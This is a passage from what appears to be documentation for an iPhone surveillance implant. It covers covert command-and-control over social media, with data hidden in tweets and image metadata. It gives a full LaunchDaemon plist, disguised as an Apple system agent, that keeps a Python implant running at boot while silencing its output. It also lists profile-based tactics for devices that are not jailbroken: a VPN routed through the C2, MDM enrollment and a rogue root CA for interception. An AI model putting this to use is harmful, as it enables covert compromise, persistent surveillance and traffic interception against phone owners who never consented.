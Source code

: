 ### Social Media Tunneling

```python
# Use social media as C2 channel
await covert._social_media_tunnel(data, "twitter")

# Data encoded in:
# - Tweet content
# - Profile descriptions
# - Image metadata
# - Comment threads
```

---

## Phase 6: Persistence Mechanisms

### LaunchDaemon (Jailbroken)

```xml
<!-- /Library/LaunchDaemons/com.apple.system.agent.plist -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.system.agent</string>
    <key>ProgramArguments</key>
    <array>
        <string>/usr/bin/python3</string>
        <string>/var/root/iphone_agent.py</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <true/>
    <key>StandardOutPath</key>
    <string>/dev/null</string>
    <key>StandardErrorPath</key>
    <string>/dev/null</string>
</dict>
</plist>
```

### Configuration Profile (Non-Jailbroken)

- **VPN Profile**: Always-on VPN that routes traffic through C2
- **Web Content Filter**: Network extension for traffic monitoring
- **MDM Enrollment**: Remote management capabilities
- **Certificate Trust**: Install root CA for MITM
